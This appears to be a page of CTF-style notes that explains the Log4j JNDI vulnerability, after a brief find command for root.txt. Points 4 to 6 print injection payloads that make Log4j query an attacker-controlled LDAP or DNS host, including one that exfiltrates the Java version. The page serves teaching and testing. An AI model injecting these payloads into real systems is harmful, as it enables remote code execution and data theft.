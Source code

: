 ```
find / -name root.txt 2>/dev/null
```

This example is now concluded.

## Understanding the Log4j Vulnerability

1. **What is Log4j?** Log4j is a widely-used Java library developed by the Apache Software Foundation, initially created in 2001. It allows developers to manage logging (i.e., recording messages about the application’s operation) through configuration files rather than embedding print statements directly in the code. This makes it easier to adjust what gets logged and how it’s formatted without changing the code itself.

2. **How Does Logging Work?** Instead of manually inserting print statements into code to track issues, developers use Log4j to create log messages. The library reads configuration files to determine which log levels (e.g., INFO, WARN, DEBUG) should be recorded. This setup helps developers quickly enable detailed logging for troubleshooting when problems arise.

3. **What is the Vulnerability?** The Log4j vulnerability is a type of Expression Evaluation vulnerability. It becomes problematic when an attacker can control the content that ends up in logs. This is common because logs often include user input or other data from external sources. For example, in an FTP server, usernames might be logged. If an attacker can control the username field, they can inject malicious data.

4. **How Does the Exploit Work?** The exploit leverages Log4j’s ability to process certain expressions. For example, by including something like ```${jndi:ldap://<attacker-controlled-domain>/a}``` in a loggable field, an attacker can trick Log4j into querying an LDAP server controlled by them. This can lead to various malicious outcomes, including data exfiltration or remote code execution. In other words, when Log4j encounters a JNDI expression, it tries to connect to the specified LDAP server. If the LDAP server is controlled by an attacker, it can respond with a payload that Log4j will process. This might include Java classes or other data that can lead to remote code execution or other malicious actions.

5. **How Do You Test for Vulnerability?** To test if an application is vulnerable, attackers use techniques like injecting ```${jndi:ldap://<DNS-Canary-Token>/a}``` into input fields. A DNS Canary Token is a unique domain that alerts the attacker when it is accessed. If the application queries this domain, it indicates a potential vulnerability.

6. **Why Use DNS for Exploitation?** DNS is a reliable method for exfiltrating data because it’s hard to block and doesn’t reveal the original requestor’s IP address. For instance, using ```${jndi:ldap:///${sys:java.version}.YourDomain.com/}``` allows attackers to exfiltrate information about the Java version by embedding it into the DNS request. The data sent is not directly visible in network traffic, making it easier for attackers to gather information stealthily.

7. **What are Canary Tokens?** Canary Tokens are tools used to detect vulnerabilities and monitor for attacks. They are unique, internet-accessible services that notify the creator when accessed. DNS-based canaries are effective because DNS queries are difficult to block and don’t reveal the requestor’s IP address, making them a useful method for tracking and catching attackers.

8. **Why LDAP?** LDAP is used in the Log4j vulnerability because it’s a common directory service protocol that JNDI interacts with. LDAP is a protocol used for accessing and maintaining distributed directory information services. It’s commonly used for things like user directories, authentication services, and more. In the context of JNDI, LDAP is one of the directory services JNDI can interact with. The vulnerability arises from Log4j’s handling of JNDI lookups via LDAP, allowing attackers to inject and execute malicious payloads through LDAP responses.
